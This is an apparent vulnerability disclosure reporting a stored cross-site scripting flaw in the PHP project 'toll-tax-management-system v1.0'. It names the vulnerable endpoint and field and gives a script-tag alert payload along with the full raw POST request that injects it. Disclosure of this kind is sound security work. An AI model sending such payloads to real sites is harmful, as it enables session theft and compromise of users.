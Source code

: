 # toll-tax-management-system v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /ttms/classes/Master.php?f=save_recipient

Vulnerability location: /ttms/classes/Master.php?f=save_recipient, vehicle_name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /ttms/classes/Master.php?f=save_recipient HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------24404946016694802869537324
Content-Length: 870
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/ttms/admin/?page=recipients/manage_recipient
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="id"


-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="category_id"

2
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="toll_id"

2
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="vehicle_name"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="vehicle_registration"

asd
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="owner"

asd
-----------------------------24404946016694802869537324
Content-Disposition: form-data; name="cost"

100
-----------------------------24404946016694802869537324--

```

![](https://github.com/mikeccltt/bug_report_CVE/blob/main/toll-tax-management-system/xss.gif?raw=true)
